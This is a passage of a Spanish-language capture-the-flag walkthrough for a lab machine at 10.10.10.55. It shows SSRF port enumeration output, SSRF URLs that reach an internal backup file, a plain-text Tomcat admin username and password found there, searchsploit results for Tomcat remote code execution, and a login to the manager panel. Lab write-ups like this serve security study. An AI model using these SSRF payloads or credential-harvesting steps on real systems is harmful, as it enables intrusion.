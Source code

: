 ```bash
Total requests: 65535

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                     
=====================================================================

000000320:   200        26 L     109 W      1232 Ch     "320"                                                                       
000000200:   200        3 L      2 W        22 Ch       "200"                                                                       
000000022:   200        4 L      4 W        62 Ch       "22"                                                                        
000000888:   200        78 L     265 W      3955 Ch     "888"                                                                       
000000110:   200        17 L     24 W       187 Ch      "110"                                                                       
000000090:   200        11 L     18 W       156 Ch      "90"                                                                        
000060000:   200        78 L     130 W      1171 Ch     "60000" 
```
SSRF - Listamos puertos internos de la maquina atraves del buscador de la web apuntando al localhost : y el puerto filtrando por la longitud en la respuesta.

Investigamos los Recursos Encontrados
```bash
http://10.10.10.55:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A888
```
Encontramos un directory listing con un archivo llamado `Backup`, intentamos apuntar a el.
```bash
# Apuntamos al documento añadiendo `?doc=backup`
view-source:http://10.10.10.55:60000/url.php?path=http%3A%2F%2F127.0.0.1%3A888?doc=backup 
```
No se ve nada `--- hacemos Ctrl+U ---`  Encontramos Credenciales para algun login a nivel web.
```bash
<user username="admin" password="3@g01PdhB!" roles="manager,manager-gui,admin-gui,manager-script"/>
```
Buscamos si a nivel del `Tomcat en el puerto 8080`
Buscamos con searchsploit:
```bash
# searchsploit Tomcat 8.5.5                                                                                                            1 ⚙
----------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                             |  Path
----------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution ( | jsp/webapps/42966.py
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Upload Bypass / Remote Code Execution ( | windows/webapps/42953.txt
----------------------------------------------------------------------------------------------------------- ---------------------------------
```
Conseguimos entrar al panel del Admin a nivel web de Tomcat:
```bash
http://10.10.10.55:8080/manager/html
```
Introducimos las contraseñas encontradas y accedemos al panel como Administradores.
Desde Aqui seguimos los pasos para explotar el CMS Tomcat.
